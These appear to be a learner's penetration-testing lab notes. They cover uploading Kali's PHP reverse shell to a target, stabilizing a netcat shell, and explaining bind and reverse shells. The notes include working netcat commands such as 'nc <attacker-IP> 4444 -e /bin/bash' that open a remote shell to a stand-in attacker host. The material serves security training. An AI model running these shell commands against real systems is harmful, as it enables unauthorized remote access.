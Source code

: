 	Direct to the kali pre-installed webshell directory and edit the file php-reverse-shell.php, change the IP to your local into IP add and rename to rshell.php:
	![[Pasted image 20240820053521.png]]

	Visting the target machine and submit the shell:
	![[Pasted image 20240820053603.png]]

	Start listening on the attacking machine:
	![[Pasted image 20240820053634.png]]

stabilize the netcat:
1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` 
2. `export TERM=xterm`
3. Background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`


2)  **Experiment with bind and reverse netcat shells.**
	### **Bind Shell:**
	- **Concept**: In a bind shell, the target machine opens a specific port and listens for incoming connections. The attacker then connects to this open port to gain access to the command line on the target machine.

	- **Process**:
    1. The target machine runs a command to bind a shell to a specific port.
    2. The attacker connects to the target machine's IP address on that port.
    3. Once connected, the attacker can execute commands on the target machine through the shell.
    
- **Example Command**:
    `nc -lvp 4444 -e /bin/bash`
    
    Here, `nc` (netcat) listens on port `4444` and executes `/bin/bash` when a connection is established.

	### **Reverse Shell:**
	- **Concept**: In a reverse shell, the target machine initiates a connection back to the attacker's machine. The attacker then gains access to the command line on the target machine through this connection.

	- **Process**:
    1. The attacker sets up a listener on their own machine, waiting for incoming connections.
    2. The target machine runs a command to initiate a connection to the attacker's IP address and port.
    3. Once connected, the attacker can execute commands on the target machine through the shell.
    
- **Example Command**:
    `nc <attacker-IP> 4444 -e /bin/bash`
    
    Here, the target machine connects to the attacker's machine at `<attacker-IP>` on port `4444` and executes `/bin/bash` when the connection is established.


	 ssh connect to linux machine -> setting netcat listener on port 1234 -> reverse shell using 
	 `nc <machine-IP> <Port> -e /bin/bash`
 
	![[Pasted image 20240820193640.png]]
	![[Pasted image 20240820193754.png]]

